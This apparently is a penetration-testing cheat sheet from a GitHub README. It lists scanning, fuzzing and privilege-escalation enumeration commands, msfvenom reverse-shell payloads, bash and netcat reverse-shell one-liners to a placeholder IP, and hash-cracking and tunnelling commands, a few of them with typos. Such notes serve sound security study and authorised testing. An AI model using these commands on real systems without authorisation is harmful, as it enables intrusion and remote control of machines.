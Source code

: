[GTFOBins](https://gtfobins.github.io/), [LinSmartEnum](https://github.com/diego-treitos/linux-smart-enumeration), [LinEnum](https://github.com/rebootuser/LinEnum), [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS), [LinuxExploitSuggester](https://github.com/mzet-/linux-exploit-suggester), [suider](https://github.com/etc5had0w/suider)

[Sherlock](https://github.com/rasta-mouse/Sherlock), [impacket](https://github.com/SecureAuthCorp/impacket), [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec), [Evil-WinRM](https://github.com/Hackplayers/evil-winrm)

----
## scan ports
```bash
# nmap scan allports, service/version info, script scan
nmap -T4 -sC -sV -p- --min-rate=1000 -oN <FILE> <IP> -Pn

# udp scan top 1000 ports
nmap -sU -sC -sV -vvv <IP> -oN nmap/udp-ports

# scan a port for vuln scripts
nmap -p <PORT> -script vuln <IP>

# masscan all tcp ports
massscan -p1-65535 <IP>
```

## scan local network
```bash
nmap -sn 192.168.1.0/24
arp-scan 192.168.1.0/24
```

## find files
```bash
find / -iname <file>.txt 2>/dev/null # linux
dir <file>.txt /S /B # windows cmd
where /r C:\ <file>.txt
Get-ChildItem -Path C:\ -Filter <file>.txt -Recurse -ErrorAction SilentlyContinue -Force # windows powershell
```

## file/directory scan

```bash
gobuster dir -u <IP> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html --timeout 50s -t 170 -f -o gobsuter

# gobsuter scan php files
gobuster dir -u <IP> -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-words.txt -t 30 -x php

# gobuster scan directory
gobuster dir -u <IP> -w /usr/share/wordlists/dirb/big.txt -t 30
gobuster dir -u <IP> -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-words.txt -t 30
gobuster dir -u <IP> -w /usr/share/wordlists/seclists//Discovery/Web-Content/raft-medium-directories.txt --timeout 7s -t 50 -f

# dirsearch
dirsearch -u <IP> -w <wordlist>

# ffuf 
ffuf -u <IP>/FUZZ -w <wordlist>

# ffuf subdomain scan
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://website.com/ -H "Host: FUZZ.website.com" -of html -o scans/ffuf.1.html
```

----
## potential priv-esc
```bash
# list allowed sudo commands
sudo -l

# list files capabilities
getcap -r / 2>/dev/null

# find suid / sgid files
find / -type f -perm -4001 -exec ls -h {} \; 2> /dev/null
find / -type f -perm -4000 -exec ls -l {} \; 2> /dev/null
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls  -l {} \; 2> /dev/null
```

## windows msfvenom payloads
```bash
# windows reverse shell
msfvenom -p windows/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f exe -o payload.exe

# windows reverse shell uses exploit/multi/handler as listener
msfvenom -p windows/shell/reverse_tcp --platform=win --arch=x86 LHOST=<IP> LPORT=<PORT> -f exe -o payload.exe
```

## pentesting smb
```bash
https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb

smbmap -H <IP> -u "user -p "pass # give wrong creds
smbclient //<IP>/share

# mount a shared folder
mount -t cifs //x.x.x.x/share /mnt/share
```

## pentesting nfs
```bash
https://vk9-sec.com/2049-tcp-nfs-enumeration/
https://book.hacktricks.xyz/network-services-pentesting/nfs-service-pentesting

# check exposed mounts
showmount -e <IP>
```
## reverse shell
```bash
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1

/bin/bash -c '/bin/bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'

nc -e /bin/bash <IP> <PORT>
```
## services
```bash
# SNMP
snmp-check <IP>
snmpwalk -v1 -c public <IP>

# LDAP
nmap -n -sV --script "ldap* and not brute" <IP>  
```

## etc
```bash
# ssh with public_key
ssh <user>@<server> -i ~/.ssh/id_rsa

# tty shell
python -c 'import pty; pty.spawn("/bin/bash")'
ctrl + z
stty raw -echo
fg
enter

# check shared objects 
strace <file> 2>&1

# if sudo su not allowed
sudo -s
sudo -i
sudo /bin/bash
sudo password

# metasploit migrate to diff process
migrate <process_id>

# cracking hash with hashcat
hashcat -a -m 400 hashfile /usr/share/wordlists/rockyou.txt

# reverse port forwading an internal port
chisel server -p 3477 --reverse # local
chisel client <localip:localport> R:8000:127.0.0.1:8000/tcp # remote
```
